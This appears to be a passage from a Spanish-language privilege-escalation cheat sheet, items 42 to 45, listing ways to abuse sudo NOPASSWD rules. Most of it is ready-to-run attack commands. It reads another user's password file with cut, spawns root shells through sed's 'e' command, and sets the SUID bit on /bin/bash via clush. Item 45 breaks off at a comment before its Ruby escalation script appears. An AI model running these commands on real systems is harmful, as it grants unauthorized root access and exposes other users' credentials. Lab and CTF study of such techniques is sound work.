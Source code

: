 -------------------------------------------------------------------------------

42.-	/usr/bin/cut

(chocolatito) NOPASSWD: /usr/bin/cut

con el binario cut podemos extraer texto.

entonces buscamos archivos del usuario chocolatito dentro del sistema:

find / -type f -user chocolatito 2>/dev/null

ejemplo: /opt/chocolatitocontraseña.txt

ejecutamos para ver chocolatitocontraseña.txt:

sudo -u chocolatito cut -f 1 /opt/chocolatitocontraseña.txt

-------------------------------------------------------------------------------

43.-	/usr/bin/sed

(root) NOPASSWD: /usr/bin/sed

sudo /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts

(javier) NOPASSWD: /usr/bin/sed

sudo -u javier /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts

-------------------------------------------------------------------------------

44.-	/usr/bin/clush

(ALL : ALL) NOPASSWD: /usr/bin/clush

sudo /usr/bin/clush -w node[11-14] -b

Enter 'quit' to leave this interactive mode
Working with nodes: node[11-14]
clush> !chmod u+s /bin/bash
clush> quit

bash -p

listo somos root

-------------------------------------------------------------------------------

45.- 	/home/alice/scripts/*.rb

User alice may run the following commands on ee1bacc7912d:
    (ALL : ALL) NOPASSWD: /home/alice/scripts/*.rb

Esto quiere decir que cualquier usuario puede ejecutar cualquier script en rugby (rb) dentro de /home/alice/scripts:

Entonces se crea un script para elevar privilegios.

script.rb

# Script para ejecutar comandos como root
